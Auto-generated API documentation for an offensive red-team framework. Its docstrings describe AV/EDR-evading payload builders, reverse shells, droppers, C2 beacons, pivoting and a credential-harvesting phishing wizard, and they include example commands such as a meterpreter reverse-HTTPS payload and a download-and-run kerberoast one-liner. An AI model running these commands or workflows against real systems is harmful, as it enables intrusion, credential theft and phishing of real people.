- `do_veil` (line 651) `def do_veil(self, line)` - *Generates payloads using Veil-Evasion with various options. Veil-Evasion is a payload creation framework
for generating payloads that evade antivirus detection. This function checks if `Veil-Evasion` is installed
and installs it if necessary. It then runs `Veil-Evasion` with the specified parameters to create various payloads.

:param line: Not used in this implementation but reserved for future use.

:returns: None

Manual execution:
To manually generate a payload using Veil-Evasion, use the following command:
    ./Veil-Evasion.py -p <PAYLOAD> --<OPTION> <VALUE>

Replace the placeholders with the desired values. For example:
    ./Veil-Evasion.py -p python/meterpreter/rev_https LHOST=192.168.1.100 LPORT=443

Example usage:
    veil python_meterpreter_rev_https LHOST=192.168.1.100 LPORT=443
    veil ruby_meterpreter_rev_tcp LHOST=192.168.1.100 LPORT=4444*
- `do_scarecrow` (line 725) `def do_scarecrow(self, line)` - *Executes ScareCrow with various options for bypassing EDR solutions and executing shellcode.
to create the shellcode.bin you need run venom or run lazymsfvenom, or run msfvenom yourself :D
:param line: Not used directly but reserved for future use.
:returns: None*
- `do_generate_revshell` (line 843) `def do_generate_revshell(self, line)` - *Generate a reverse shell in various programming languages.

This function prompts the user to choose a reverse shell type (Bash, Python, NetCat, PHP, Ruby, Perl, Telnet, NodeJS, Golang, PowerShell)
and then asks for the necessary parameters (IP and port). Based on the user's input, it generates the corresponding
reverse shell command.

:param line: Not used in this implementation.
:returns: None*
- `do_dr0p1t` (line 909) `def do_dr0p1t(self, line)` - *Execute the Dr0p1t tool to create a stealthy malware dropper.

This function prompts the user to input the necessary parameters for
generating a dropper, including the malware URL, persistence options,
and additional configurations. Based on the user's input, it constructs
the command and executes it.

:param line: Not used in this implementation.
:returns: None*
- `do_paranoid_meterpreter` (line 972) `def do_paranoid_meterpreter(self, line)` - *Creates and deploys a paranoid Meterpreter payload and listener with SSL/TLS pinning and UUID tracking.

This function performs the following actions:
1. Generates a self-signed SSL/TLS certificate for payload encryption.
2. Creates either staged or stageless Meterpreter payloads with UUID tracking and TLS pinning.
3. Configures and launches a Metasploit listener for the payload.

Parameters:
line (str): Command arguments specifying target configurations.
            Expected format:
                - self.params['rhost'] self.params['lhost'] self.params['domain'] subdomain

Returns:
None*
- `do_setoolKits` (line 1060) `def do_setoolKits(self, line)` - *Executes the SEToolKit workflow to generate a Meterpreter payload
and configure the multi-handler using LHOST and LPORT from self.params.

Usage:
    do_setoolKits

Arguments:
    None: LHOST and LPORT are retrieved from self.params.

Workflow:
    1. Launches SEToolKit.
    2. Navigates to option 1 (Social-Engineering Attacks).
    3. Selects option 9 (Powershell Alphanumeric Shellcode Injector).
    4. Configures LHOST and LPORT using values from self.params.
    5. Generates a Meterpreter reverse HTTPS payload.
    6. Configures a multi-handler to listen for incoming connections.*
- `do_darkarmour` (line 1093) `def do_darkarmour(self, line)` - *Uses the darkarmour tool to generate an undetectable version of a PE executable.

This function performs the following actions:
1. Verifies the presence of darkarmour; if not installed, it clones the repository and installs dependencies.
2. Prompts the user for various options to customize the tool's behavior.
3. Constructs a command to run darkarmour with the selected options.
4. Executes darkarmour to generate the output file with the desired level of obfuscation.

Parameters:
line (str): Command line arguments for the tool.

Returns:
None*
- `do_knokknok` (line 1161) `def do_knokknok(self, line)` - *Send special string to trigger a reverse shell, with the command 'c2 client_name'
create a listener shell script to drop the reverse shell in python3
Args:
    line (str): input line not used

Returns:
    None*
- `do_listener_go` (line 1196) `def do_listener_go(self, line)` - *Configures and starts a listener for a specified victim.

This function takes a command line input to configure and start a listener for a specified victim.
The input should include the victim ID, the choice of listener type, and optionally the port numbers.
The function then constructs the appropriate command to start the listener and assigns the necessary
parameters.

Args:
    line (str): The command line input containing the victim ID, listener type, and optional port numbers.

Returns:
    None

Raises:
    None

Example:
    >>> listener_go victim1 2 1337 7777*
- `do_listener_py` (line 1263) `def do_listener_py(self, line)` - *Configures and starts a listener for a specified victim.

This function takes a command line input to configure and start a listener for a specified victim.
The input should include the victim ID, the choice of listener type, and optionally the port numbers.
The function then constructs the appropriate command to start the listener and assigns the necessary
parameters.

Args:
    line (str): The command line input containing the victim ID, listener type, and optional port numbers.

Returns:
    None

Raises:
    None

Example:
    >>> listener_py victim1 2 1337 7777*
- `do_service` (line 1330) `def do_service(self, line)` - *Creates a systemd service file for a specified binary and generates a script to enable and start the service.

This function takes the name of a binary as input, creates a systemd service file for it, and generates a shell script
to enable and start the service. The script is saved in the sessions directory and a command is provided to execute
the script remotely via SSH.

Args:
    line (str): The command line input containing the name of the binary. If an absolute path is not provided,
                a default path is used.

Returns:
    None

Raises:
    None

Example:
    >>> service my_binary_name*
- `do_toctoc` (line 1403) `def do_toctoc(self, line)` - *Sends a magic packet to the Chinese malware.
The function extracts self.params['rhost'] and rport from self.params['rhost'] and self.params['rport'], respectively.*
- `do_beaconcfg` (line 1426) `def do_beaconcfg(self, line)` - *Generate a C2 beacon profile with traffic morphing and domain fronting.

Usage:
    beaconcfg generate [name]        Generate a malleable C2 profile
    beaconcfg cdn [provider]         List CDN domains for fronting
    beaconcfg worker <c2_host> <c2_port> [token]  Generate Cloudflare Worker proxy
    beaconcfg dns <data> <domain>    Encode data as DNS tunnel queries*

#### `phishing_wizard.py`
**Path:** `cli/commands/phishing_wizard.py`
**File Doc:** *Phishing Wizard command set.  End-to-end phishing campaign wizard with step-by-step interactive flow: target profiling -> template selection -> landing page generation -> sending -> tracking -> credential capture -> automatic config update.*

**Classes:**
- `PhishingWizardCommandSet` (line 183) `class PhishingWizardCommandSet(LazyOwnCommandSet)` - *End-to-end phishing campaign wizard.*
- `PhishingHandler` (line 388) `class PhishingHandler(BaseHTTPRequestHandler)`

**Functions:**
- `_profile_targets` (line 510) `def _profile_targets(domain)` - *Generate target email addresses from common role prefixes.

Args:
    domain: Target domain name.

Returns:
    List of email addresses.*
- `_save_targets` (line 522) `def _save_targets(campaign_dir, targets)` - *Save target list to disk.

Args:
    campaign_dir: Campaign directory path.
    targets: List of email addresses.*
- `_log_click` (line 533) `def _log_click(campaign_dir, ip, user_agent)` - *Log a click event.

Args:
    campaign_dir: Campaign directory path.
    ip: Source IP address.
    user_agent: User-Agent header.*
- `_ensure_session_key` (line 551) `def _ensure_session_key()` - *Provision a machine-local secret key for credential encryption.

Creates ``sessions/.secret_key`` with owner-only permissions when it is
absent so the CLI campaign can encrypt harvested credentials without a
pre-existing C2 bootstrap.

Returns:
    None*
- `_log_credentials` (line 569) `def _log_credentials(campaign_dir, email, password, ip)` - *Log captured credentials encrypted at rest and hashed in the audit log.

Args:
    campaign_dir: Campaign directory path.
    email: Captured email/username.
    password: Captured password.
    ip: Source IP address.*
- `_send_smtp_email` (line 603) `def _send_smtp_email(server, port, username, password, to_email, from_addr, subject, html_body)` - *Send an email via SMTP.

Args:
    server: SMTP server hostname.
    port: SMTP server port.
    username: SMTP username.
    password: SMTP password.
    to_email: Recipient address.
    from_addr: Sender display address.
    subject: Email subject.
    html_body: HTML email body.

Returns:
    True if sent successfully.*
- `_extract_flag` (line 702) `def _extract_flag(args, flag)` - *Extract a ``--flag <value>`` pair from a list of arguments.*
- `do_phisher` (line 637) `def do_phisher(self, line)` - *Launch a phishing campaign against a target domain.

Profiles targets, generates email templates, clones landing pages,
and tracks clicks and credential harvesting. Supports built-in
templates (microsoft_365_login, sharepoint_share, password_reset,
voicemail_notification, hr_policy_update) and custom templates.

Modes:
    credential_harvest  - Clone login pages and collect credentials.
    payload_delivery    - Send weaponized attachments.
    callback_beacon     - Embed C2 callback URLs for initial access.

Usage:
    phisher <domain> <template> [mode]
    phisher target.com microsoft_365_login
    phisher target.com password_reset credential_harvest
    phisher target.com custom_template.json

Harvested credentials are saved to ``sessions/phishing_credentials.txt``.

:param line: Domain, template name, and optional mode.
:type line: str
:return: None*

**Methods:**
- `do_phish_wizard` (line 190) `def do_phish_wizard(self, line)` - *Interactive end-to-end phishing campaign wizard.

Usage: phish_wizard

Walks through: target profiling -> template selection -> landing page
generation -> email sending -> credential harvesting.*
- `do_phish_serve` (line 361) `def do_phish_serve(self, line)` - *Start a lightweight HTTP server for phishing landing pages.

Usage: phish_serve <campaign_id> [--port <port>]

Serves landing pages from sessions/phishing_<campaign_id>/index.html
and handles credential harvesting at /harvest/<campaign_id>.*
- `do_phish_report` (line 443) `def do_phish_report(self, line)` - *Show campaign results and captured credentials.

Usage: phish_report <campaign_id>

Displays click count, captured credentials, and campaign stats.*
- `log_message` (line 389) `def log_message(self, format)`
- `do_GET` (line 392) `def do_GET(self)`
- `do_POST` (line 407) `def do_POST(self)`
- `do_OPTIONS` (line 427) `def do_OPTIONS(self)`

#### `pivoting.py`
**Path:** `cli/commands/pivoting.py`
**File Doc:** *Intelligent Pivoting command set.  Covers automatic network discovery, dynamic tunnel setup, and multi-hop pivot chain management for lateral movement through compromised hosts.*

**Classes:**
- `PivotingCommandSet` (line 37) `class PivotingCommandSet(LazyOwnCommandSet)` - *Automatic pivoting and multi-hop tunnel management.*

**Functions:**
- `_discover_internal_networks` (line 262) `def _discover_internal_networks(rhost)` - *Discover internal networks reachable from the pivot host.

Args:
    rhost: The pivot host IP.

Returns:
    List of CIDR-notation networks found.*
- `_setup_chisel_pivot` (line 308) `def _setup_chisel_pivot(rhost, lhost, port, networks)` - *Set up a Chisel reverse SOCKS proxy.

Args:
    rhost: Pivot host IP.
    lhost: Attacker IP.
    port: Local port for the SOCKS proxy.
    networks: Internal networks to route through the pivot.

Returns:
    True when the local server started, False when chisel is absent.*
- `_setup_ssh_pivot` (line 352) `def _setup_ssh_pivot(rhost, lhost, port, networks)` - *Set up an SSH dynamic SOCKS proxy.

Args:
    rhost: Pivot host IP.
    lhost: Attacker IP.
    port: Local port for the SOCKS proxy.
    networks: Internal networks to route through the pivot.

Returns:
    True when the SSH tunnel command completed, False otherwise.*
- `_setup_socat_pivot` (line 389) `def _setup_socat_pivot(rhost, lhost, port, networks)` - *Set up a Socat relay.

Args:
    rhost: Pivot host IP.
    lhost: Attacker IP.
    port: Local port for the relay.
    networks: Internal networks.

Returns:
    True when the relay commands completed, False when socat is absent.*
- `_find_free_port` (line 442) `def _find_free_port(start)` - *Find a free TCP port starting from ``start``.

Args:
    start: First port to try.

Returns:
    An available port number.*
- `_load_pivot_chain` (line 463) `def _load_pivot_chain()` - *Load the pivot chain from the session file.*
- `_save_pivot_chain` (line 471) `def _save_pivot_chain(chain)` - *Save the pivot chain to the session file.*
- `_extract_flag` (line 478) `def _extract_flag(args, flag)` - *Extract a ``--flag <value>`` pair from a list of arguments.*

**Methods:**
- `do_autopivot` (line 44) `def do_autopivot(self, line)` - *Auto-detect internal networks and set up pivot tunnels.

Usage: autopivot [--lhost <attacker_ip>] [--rhost <pivot_host>] [--method <chisel|ssh|socat>]

Discovers internal networks reachable through the pivot host and
sets up SOCKS/port forwarding to access them from the attacker machine.*
- `do_pivot_status` (line 118) `def do_pivot_status(self, line)` - *Show the current pivot chain state.

Usage: pivot_status [--json]*
- `do_pivot_kill` (line 137) `def do_pivot_kill(self, line)` - *Kill all pivot tunnels and clean up.

Usage: pivot_kill [--hop <n>]

Without --hop, kills all pivot processes. With --hop, kills a specific hop.*
- `do_pivot_scan` (line 171) `def do_pivot_scan(self, line)` - *Scan internal networks through the current pivot chain.

Usage: pivot_scan <network_cidr> [--port <ports>] [--rate <pkts_per_sec>]

Runs a fast TCP scan through proxychains against internal networks.*
- `do_pivot_proxy` (line 224) `def do_pivot_proxy(self, line)` - *Start a local SOCKS proxy through the pivot chain.

Usage: pivot_proxy [--port <local_port>] [--hop <n>]

Starts a proxy listener on the attacker machine that forwards
traffic through the specified pivot hop.*

#### `postexp.py`
**Path:** `cli/commands/postexp.py`
**File Doc:** *Post-Exploitation command set (pending).  Phase 04 — commands for post-exploitation tasks: webshells, AV bypass, automated enumeration, shellcode generation, and payload creation.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.*

**Classes:**
- `PostExploitationCommandSet` (line 25) `class PostExploitationCommandSet(LazyOwnCommandSet)` - *Post-Exploitation phase commands (pending).*

**Methods:**
- `do_lazywebshell` (line 32) `def do_lazywebshell(self, line)` - *Run LazyOwn webshell server on port 8888.*
- `do_disableav` (line 45) `def do_disableav(self, line)` - *Create a VBS script to attempt disabling Windows Defender.*
- `do_mimikatzpy` (line 59) `def do_mimikatzpy(self, line)` - *Run Mimikatz over Python (impacket style).*
- `do_scavenger` (line 64) `def do_scavenger(self, line)` - *Run the Scavenger post-exploitation data collector.*
- `do_follina` (line 69) `def do_follina(self, line)` - *Run the Follina (CVE-2022-30190) exploit setup.*
- `do_shellcode` (line 74) `def do_shellcode(self, line)` - *Generate and manage shellcode.*
- `do_ofuscatorps1` (line 82) `def do_ofuscatorps1(self, line)` - *Obfuscate a PowerShell script.*
- `do_atomic_lazyown` (line 87) `def do_atomic_lazyown(self, line)` - *Execute atomic red-team tests via LazyOwn.*

#### `postexp_migrated.py`
**Path:** `cli/commands/postexp_migrated.py`
**File Doc:** *postexp commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `PostexpMigratedCommandSet` (line 32) `class PostexpMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `resolve_and_download_dependencies` (line 1030) `def resolve_and_download_dependencies(package_name)` - *Recursively resolve and download package dependencies with enhanced checks*

**Methods:**
- `do_find` (line 37) `def do_find(self, line)` - *Automates command execution based on a list of aliases and commands.

1. Displays available aliases and their commands.
2. Asks the user if they want to execute a specific command.
3. If confirmed, displays the alias and command with a number.
4. Executes the command and copies it to the clipboard.

:param line: The command line input containing a keyword to filter the list of alias and command pairs.
:type line: str
:returns: None

Manual execution:
- Prepare the list of alias and command pairs in the format: "alias command".
- Provide this list as input to the function.
- Confirm the execution of the desired command when prompted.
- Manually copy the command to the clipboard if needed.

Note: Ensure `xclip` is installed and properly configured to use clipboard functionalities.*
- `do_cports` (line 533) `def do_cports(self, line)` - *Generates a command to display TCP and UDP ports and copies it to the clipboard.

This function performs the following actions:
1. Defines a command to display TCP and UDP ports from `/proc/net/tcp` and `/proc/net/udp`, respectively.
2. The command extracts and formats IP addresses and port numbers from these files.
3. Prints the generated command to the console for verification.
4. Copies the command to the clipboard using `xclip`.

Usage:
    cports  # Generates the command and copies it to the clipboard

:param line: This parameter is not used in this function.
:type line: str
:returns: None

Manual execution:
To manually use this function:
1. Run the function to print the command and copy it to the clipboard.
2. The command can be pasted into a terminal to display TCP and UDP ports.

Note: Ensure `xclip` is installed on your system for copying to the clipboard. If `xclip` is not available, you may need to install it or use an alternative method for copying to the clipboard.*
- `do_rubeus` (line 578) `def do_rubeus(self, line)` - *Copies a command to the clipboard for downloading and running Rubeus.

1. Checks if `self.params['lhost']` (local host IP) is set:
    - If `self.params['lhost']` is not set, displays an error message and exits the function.

2. If `self.params['lhost']` is set:
    - Displays a message indicating that the Rubeus downloader command has been copied to the clipboard.
    - The copied command downloads Rubeus from the specified `self.params['lhost']` and saves it as `Rubeus.exe`.
    - Uses `xclip` to copy the following command to the clipboard:
    - `iwr -uri http://{self.params['lhost']}/Rubeus.exe -OutFile Rubeus.exe ; .\Rubeus.exe kerberoast /creduser:self.params['domain'].local\usuario /credpassword:password`

:param line: Not used in this function.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Ensure that `self.params['lhost']` is assign correctly.
- Use `xclip` to copy the provided command to the clipboard.
- Execute the downloaded Rubeus executable with the provided arguments.

Note: Ensure `xclip` is installed and available on your system.*
- `do_sessionsshstrace` (line 618) `def do_sessionsshstrace(self, line)` - *Attach strace to a running process and log output to a file.

This function attaches `strace` to a process specified by its PID,
tracing system calls related to writing data. The output of `strace`
is saved to a file named `strace.txt` in the `sessions` directory.

Parameters:
- line (str): The PID of the process to attach strace to.

Raises:
- ValueError: If the `line` parameter is empty.
- FileNotFoundError: If `strace` is not installed.

Example:
- `sessionsshstrace 666`: Attach strace to process with PID 666.

Notes:
- Ensure the `sessions` directory exists or is created before running the command.
- The command redirects both stdout and stderr to the `strace.txt` file.*
- `do_powershell_cmd_stager` (line 669) `def do_powershell_cmd_stager(self, line)` - *Generate and execute a PowerShell command stager to run a .ps1 script.

This function takes the name of a PowerShell script (.ps1), encodes its content in base64,
and constructs a command to execute the script using PowerShell in a hidden and elevated manner.
The function then prints the generated command.

:param line: The name of the PowerShell script file to encode and execute.
:returns: None*
- `do_shellcode_search` (line 706) `def do_shellcode_search(self, line)` - *Search the shell-storm API for shellcodes using the provided keywords.

This function sends a GET request to the shell-storm API with the specified keywords.
It then prints the results.

:param line: A string containing the keywords to search for.
:returns: None*
- `do_shellcode2sylk` (line 754) `def do_shellcode2sylk(self, line)` - *Converts shellcode to SYLK format and saves the result to a file.

This function reads the provided shellcode, or retrieves it from a default
binary source if not supplied. The shellcode is then converted to SYLK
format and saved in the `sessions/shellcode.sylk` file.

PoC Python code to create a SYLK file with Excel4 shellcode loader.

Author: Stan Hegt (@StanHacked)

Just a proof of concept. Needs polishing before use in actual operations.
Or as Adam Chester would put it: "RWX for this POC, because... yolo"

Background details: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format/

Args:
    line (str): The input shellcode string. If empty or None, the function
                attempts to load shellcode from a predefined source.

Returns:
    None: The function writes the SYLK shellcode to a file and prints it
    out, but does not return any value.

Raises:
    FileNotFoundError: If no shellcode is found when trying to load it from
                    the default source.*
- `do_pezorsh` (line 799) `def do_pezorsh(self, line)` - *Executes the PEzor tool to pack executables or shellcode with custom configurations.

This function enables the user to construct commands for PEzor with various options.
By default, parameters are prompted to ensure successful execution without failure due to
missing values. It supports both executable and shellcode packing with the ability to
select from a range of PEzor flags to create the desired payload.

Functionalities of the function include:
1. Prompting the user to specify if they want to pack an executable or shellcode.
2. Gathering parameters for different PEzor flags based on user choices.
3. Building the command dynamically to execute PEzor.sh with the configured options.

Example commands the function can build:
- Pack an executable with 64-bit, debug, and anti-debug options.
- Pack shellcode with self-injection and sleep options.

Usage:
    - Run 'PEzor <EXECUTABLE> [donut args...]' to pack an executable with donut options.
    - Run 'PEzor <SHELLCODE>' to pack shellcode.

:param line: String containing initial command-line arguments or options.*
- `do_pip_repo` (line 872) `def do_pip_repo(self, line)` - *Sets up a local pip repository to serve Python packages for installation on a compromised machine without internet access.

This function performs the following steps:
1. Creates necessary directories for the pip repository.
2. Checks for the presence of `pip-compile` and installs it if missing.
3. Downloads a predefined list of Python packages to the local repository.
4. Compiles the requirements for each package and downloads the compiled dependencies.
5. Organizes the downloaded packages into a structured directory format.
6. Generates an index for the pip repository.
7. Serves the pip repository over HTTP, allowing the compromised machine to install packages from this local repository.

Parameters:
line (str): Command line input (not used in this function).

Returns:
None

Example Usage:
```
pip_repo
```*
- `do_apt_repo` (line 984) `def do_apt_repo(self, line)` - *Creates a comprehensive local APT repository with enhanced dependency resolution.

Improvements:
1. More robust dependency and metadata handling
2. Better error checking and logging
3. Comprehensive package and dependency management

Parameters:
line (str): A space-separated list of package names to include in the repository.

Returns:
None*
- `do_createpayload` (line 1233) `def do_createpayload(self, line)` - *Generates an obfuscated payload to evade AV detection using the payloadGenerator tool. thanks to smokeme

This function:
    - Clones the payloadGenerator repository if not already cloned.
    - Installs .NET Framework 4.5 if not already installed.
    - Executes the generator.py script with the provided IP, port, and XOR key.
    - Displays the result in the terminal.
Parameters:
    line (str): lenght of xor key
Behavior:
    - Requires `git` and `dotnet` to be installed.
    - Uses parameters from `self.params` for IP, port, and XOR key.

Usage:
    createpayload*
- `do_bin2shellcode` (line 1285) `def do_bin2shellcode(self, line)` - *Converts a binary file to a shellcode string in C or Nim format.

This function:
    - Reads a binary file and converts its contents to a shellcode string.
    - Supports both C and Nim formats.
    - Displays the result in the terminal and saves it to a file.

Behavior:
    - Requires the filename, width, quotes, and format parameters.
    - Uses default values if parameters are not provided.
    - Uses parameters from `self.params` for filename, width, quotes, and format.

Usage:
    bin2shellcode [<filename> [<width> [<quotes> [<format>]]]]
    bin2shellcode sessions/shellcode.bin 20 True c*
- `do_exe2bin` (line 1375) `def do_exe2bin(self, line)` - *Trasnform file .exe into binary file.

Args:
    line (str): Ruta del archivo ejecutable .exe.

Return shellcode.bin file in sessions directory*
- `do_exe2donutbin` (line 1402) `def do_exe2donutbin(self, line)` - *Trasnform file .exe into donut binary file.

Args:
    line (str): path to the .exe.

Return shellcode.bin file in sessions directory*
- `do_issue_command_to_c2` (line 1426) `def do_issue_command_to_c2(self, line)` - *Exec command in the client using the C2. download: command you must put the file in sessions/temp_upload or use download_c2 command

Parameters:
command (str): client_id [optional], Command to exec.

Returns:
None*
- `do_d3monizedshell` (line 1450) `def do_d3monizedshell(self, line)` - *Executes the D3m0n1z3dShell tool for persistence in Linux.

This function:
    - Installs D3m0n1z3dShell if not already installed.
    - Executes the D3m0n1z3dShell command with the provided parameters.
    - Displays the result in the terminal.

Behavior:
    - Requires `git` and `curl` to be installed.
    - Uses a one-liner installation method for simplicity.

Usage:
    d3monizedshell*
- `do_scp` (line 1483) `def do_scp(self, line)` - *Copies the local "sessions" directory to a remote host using scp, leveraging sshpass for automated authentication.

Steps:
    1. Verifies if the credentials file exists in the "sessions" directory.
    If not, prompts the user for a username and password.
    2. Reads the credentials file if it exists and extracts the username and password.
    3. Constructs an scp command to deploy the "sessions" directory to the remote host.
    4. Executes the scp command using the system shell.

Args:
    line (str): Input command line (optional). The third parameter can be 'win' or 'lin' to specify the target OS.

Dependencies:
    - The `sshpass` command-line tool must be installed on the local machine.
    - `scp` must be installed on both the local and remote machines.
    - The remote host must be accessible via SSH.

Attributes:
    - `self.params`: Dictionary containing the following keys:
        - `username` (str, optional): Predefined username. Defaults to prompting the user if not provided.
        - `password` (str, optional): Predefined password. Defaults to prompting the user if not provided.
        - `self.params['rhost']` (str): Remote host's IP or self.params['domain'] name.

Raises:
    - KeyError: If `self.params['rhost']` is not provided in `self.params`.
    - FileNotFoundError: If the "sessions" directory does not exist.

Note:
    - The `credentials.txt` file, if present, should have credentials in the format `username:password`
    on the first line.

Returns:
    None*
- `do_apt_proxy` (line 1579) `def do_apt_proxy(self, line)` - *Configures the local machine with internet access to act as an APT proxy for a machine without internet access.

Steps:
    1. Installs and configures apt-cacher-ng on the local machine.
    2. Generates the necessary commands to configure the remote machine to use the proxy.
    3. Copies the commands to the clipboard using the copy2clip function.

Parameters:
    line (str): The IP address of the remote machine without internet access.

Returns:
    None*
- `do_pip_proxy` (line 1635) `def do_pip_proxy(self, line)` - *Configures the local machine with internet access to act as a pip proxy for a machine without internet access.

Steps:
    1. Installs and configures squid on the local machine.
    2. Generates the necessary commands to configure the remote machine to use the proxy.
    3. Copies the commands to the clipboard using the copy2clip function.

Parameters:
    line (str): The IP address of the remote machine without internet access.

Returns:
    None*
- `do_internet_proxy` (line 1693) `def do_internet_proxy(self, line)` - *Configures the local machine with internet access to act as a proxy for a machine without internet access.

Steps:
    1. Installs and configures squid on the local machine.
    2. Generates the necessary commands to configure the remote machine to use the proxy.
    3. Copies the commands to the clipboard using the copy2clip function.

Parameters:
    line (str): The IP address of the remote machine without internet access.

Returns:
    None*
- `do_shellcode2elf` (line 1755) `def do_shellcode2elf(self, line)` - *Convert shellcode into an ELF file and infect it.

This function takes an optional input line that specifies the name of the shellcode file.
If no input line is provided, a filename is generated based on the self.params['domain']. The function reads
the shellcode and inserts it into a C source file, then compiles the source file into an ELF
file. It also creates an infected version of the ELF file and uploads all generated files to a
command and control (C2) server.

Args:
    line (str): An optional input line that specifies the name of the shellcode file.

Returns:
    None*
- `do_ssh_cmd` (line 1837) `def do_ssh_cmd(self, line)` - *Perform Remote Execution Command through SSH using configured start_user. See help grisun0 for backdoor user configuration.

Parameters:
    line (str): The command line input, is the command to execute, if not presented is whoami

Returns:
    None*
- `do_service_ssh` (line 1866) `def do_service_ssh(self, line)` - *Creates a systemd service file for a specified binary and generates a script to enable and start the service.

This function takes the name of a binary as input, creates a systemd service file for it, and generates a shell script
to enable and start the service. The script is saved in the sessions directory and a command is provided to execute
the script remotely via SSH.

Args:
    line (str): The command line input containing the name of the binary. If an absolute path is not provided,
                a default path is used.

Returns:
    None

Raises:
    None

Example:
    >>> service my_binary_name*
- `do_ofuscatesh` (line 1940) `def do_ofuscatesh(self, line)` - *Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it.

This function reads the content of a shell script file, encodes it in Base64, and constructs a command
that can be used to decode and execute the encoded script using `echo` and `base64 -d`.

Args:
    line (str): The path to the shell script file to be obfuscated. If not provided, a default
                path is obtained from the `get_users_dic` function.

Returns:
    None

Example:
    >>> ofuscatesh /path/to/script.sh or just ofuscatesh
    # This will read the script, encode it in Base64, and prepare a command to decode and execute it.*
- `do_ofuscate_payload` (line 1970) `def do_ofuscate_payload(self, line)` - *Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it.

This function reads the content of a shell script file, encodes it in Base64, and constructs a command
that can be used to decode and execute the encoded script using `echo` and `base64 -d`.

Args:
    line (str): The path to the shell script file to be obfuscated. If not provided, a default
                path is obtained from the `get_users_dic` function.

Returns:
    None

Example:
    >>> ofuscatesh /path/to/script.sh or just ofuscatesh
    # This will read the script, encode it in Base64, and prepare a command to decode and execute it.*
- `do_adversary` (line 1997) `def do_adversary(self, line)` - *LazyOwn RedTeam Adversary Emulator, you can configure your own adversaries in adversary.json

Parameters:
    line (str): The command line input,
    first argument optional is the id of Adversary,
    the second optional argument is if the adversary run locally (l), remote (r), or doesn't run (n)

Example: adversary 1 r

Returns:
    None*
- `do_ofuscate_string` (line 2145) `def do_ofuscate_string(self, line)` - *Ofuscate a string into Go code.*
- `do_path2hex` (line 2187) `def do_path2hex(self, line)` - *Convert a binary path to x64 little-endian hex code for shellcode injection.

Generates an 8-byte aligned hex string padded with '/' for direct use in
x64 assembly syscall examples. Output format mimics: 0x68732f2f6e69622f ('/bin/sh').

License: GPL v3 (https://www.gnu.org/licenses/gpl-3.0.html)

Args:
    line: Input path (e.g., '/bin/ls')

Technical Process:
    1. Null-terminate input
    2. Pad with '/' to 8 bytes
    3. Convert to little-endian 64-bit hex
    4. Validate ASCII-only characters

Examples:
    Input:  '/bin/sh'
    Output: 0x68732f2f6e69622f*
- `do_hex2shellcode` (line 2234) `def do_hex2shellcode(self, line)` - *Convert raw hex payload from msfvenom into NASM-compatible shellcode format.

Transforms a continuous hex string (e.g., msfvenom output) into a properly formatted
assembly data section with line-wrapped db directives. Handles byte alignment and
validation.

License: GPL v3 (https://www.gnu.org/licenses/gpl-3.0.html)

Args:
    line: Raw hex string from msfvenom (e.g., "4831c94881e9f6...")

Technical Process:
    1. Validate hex format and remove non-hex characters
    2. Split into byte pairs (xx) -> 0xXX format
    3. Wrap into db lines (16 bytes per line)
    4. Generate length calculation via shellcode_len

Examples:
    Input: 4831c94881e9f6
    Output:
        db 0x48,0x31,0xc9,0x48,0x81,0xe9,0xf6*
- `do_create_synthetic` (line 2291) `def do_create_synthetic(self, line)` - *Create a basic synthetic playbook from Nmap CSV when LLM fails.

Usage: create_synthetic <csv_file> [playbook_name]
Example: create_synthetic nmap_results.csv SyntheticPlaybook*
- `do_extract_yaml` (line 2343) `def do_extract_yaml(self, line)` - *Extract YAML from an existing debug file and try to create a playbook.

Usage: extract_yaml <debug_file> [playbook_name]
Example: extract_yaml debug_AutoGeneratedPlaybook.txt MyPlaybook*
- `do_convert_remcomsvc_from_file` (line 2405) `def do_convert_remcomsvc_from_file(self, arg)` - *Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go. see lazyaddon GoPEInjection
Usage: convert_remcomsvc_from_file
Return: Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go.*
- `do_adversary_yaml` (line 2439) `def do_adversary_yaml(self, line)` - *Execute adversary from YAML in lazyadversaries/*.yaml
Syntax: adversary [id] [l|r|n]*
- `do_add2find` (line 2524) `def do_add2find(self, line)` - *Add a new custom command to the 'find' system, saved in user_commands.json.

Usage: add2find
You will be prompted for:
- Alias (descriptive name)
- Command (the actual shell/command to execute)

Example:
Alias: LIN My Custom Recon
Command: find / -name "*.log" 2>/dev/null

The command will be available in 'find' immediately and persist across sessions.*
- `do_rmfromfind` (line 2552) `def do_rmfromfind(self, line)` - *Remove a custom command by index (as shown in 'find').

Only removes user-added commands (not defaults).*
- `do_aes_pe` (line 2581) `def do_aes_pe(self, line)` - *Encrypt with AES and random key to PE EXE file, to usage with loaders.

Usage: aes_pe
You will be prompted for:
- the PE Exe file (descriptive name)

Example:
aes_pe

The files key.bin and cipher.bin will be available in 'sessions' immediately and persist across the web server.*
- `do_yara_scan` (line 2610) `def do_yara_scan(self, line)` - *Scan files or directories with YARA rules for malware/IOCs.

Usage: yara_scan <target_path> [--download-rules]

Scans the target path with default LazyOwn YARA rules covering
webshells, Cobalt Strike, reverse shells, credential theft, and
persistence mechanisms.  Auto-installs yara-python if missing.*

#### `privilege_escalation.py`
**Path:** `cli/commands/privilege_escalation.py`
**File Doc:** *Privilege Escalation command set.  Pending phase module covering local privilege escalation helpers: SMB relay setup, Responder, linpeas / winpeas / pspy serving, kernel exploit suggestion (LES), SUID enumeration, GTFOBins / LOLBas lookup and the ``sudo`` re-launch helper.  Pending status: this set inherits from :class:`cli.commands._dormancy.PendingCommandSet`, so it is discovered for test coverage but not registered onto the shell while ``LazyOwnShell`` still defines the original methods. Promote it to :class:`cli.commands._base.LazyOwnCommandSet` once the legacy copies are deleted from ``lazyown.py``.*

**Classes:**
- `PrivilegeEscalationCommandSet` (line 132) `class PrivilegeEscalationCommandSet(LazyOwnCommandSet)` - *Pending phase module for the Privilege Escalation commands.*

**Functions:**
